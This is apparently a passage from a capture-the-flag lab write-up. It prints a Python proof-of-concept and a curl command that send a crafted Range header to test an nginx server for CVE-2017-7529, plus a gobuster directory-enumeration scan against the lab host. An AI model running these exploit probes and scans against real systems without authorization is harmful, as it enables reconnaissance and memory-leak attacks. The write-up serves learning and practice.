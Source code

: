 ```python


def exploit(url):
    log.info("target: %s", url)
    httpResponse   = send_http_request(url)

    content_length = httpResponse.headers.get('Content-Length', 0)
    bytes_length   = int(content_length) + 623
    content_length = "bytes=-%d,-9223372036854%d" % (bytes_length, 776000 - bytes_length)

    httpResponse   = send_http_request(url, headers={ 'Range': content_length })
    if httpResponse.status_code == 206 and "Content-Range" in httpResponse.text:
        log.info("[+] Vulnerable to CVE-2017-7529")
    else:
        log.info("[?] Unknown Vulnerable")


if __name__ == '__main__':
    if len(sys.argv) != 2:
        print("[*] %s <url>" % sys.argv[0])
        sys.exit(1)

    url = sys.argv[1]
    exploit(url)
```

Just trying to run as-is gives unknown results:

```sh
❯ python3 poc.py http://10.10.10.24/test.html
INFO:__main__:target: http://10.10.10.24/test.html
INFO:__main__:status: 200: Server: nginx/1.10.0 (Ubuntu)
INFO:__main__:status: 200: Server: nginx/1.10.0 (Ubuntu)
INFO:__main__:[?] Unknown Vulnerable
```

Dang. But when I try copying the example request from the blog post, I get results that seem to indicate vulnerability, even though there is no data:

```sh
❯ curl http://10.10.10.24/hair.html -H "Range: bytes=-7000,-9223372036854768808"

--00000000000000000002
Content-Type: text/html
Content-Range: bytes -6859-140/141
```

Strange. Digging into it, it looks like only `curl` gets the "Accept-Range" header in the response, which I can't explain. It doesn't matter if I change the User Agent string, either. Getting stuck.

Going back to the wordlists, maybe my assumption that it isn't a php site is wrong, so re-doing the `gobuster` scans with php added as an extension:

```sh
❯ gobuster dir -ezqrkw /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x "php,cgi" -u http://10.10.10.24
http://10.10.10.24/exposed.php          (Status: 200) [Size: 446]
```
